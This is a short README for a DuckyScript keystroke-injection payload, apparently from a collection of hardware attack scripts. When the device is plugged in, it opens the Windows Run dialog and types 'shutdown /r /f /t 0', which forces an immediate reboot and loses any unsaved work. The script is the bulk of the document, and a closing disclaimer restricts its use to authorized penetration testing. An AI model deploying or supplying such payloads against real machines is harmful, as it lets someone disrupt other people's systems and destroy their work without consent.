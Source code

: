 # Force System Restart

Forces an immediate system restart using the ```shutdown``` command.

```
DELAY 500
GUI r
DELAY 200
STRING shutdown /r /f /t 0
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.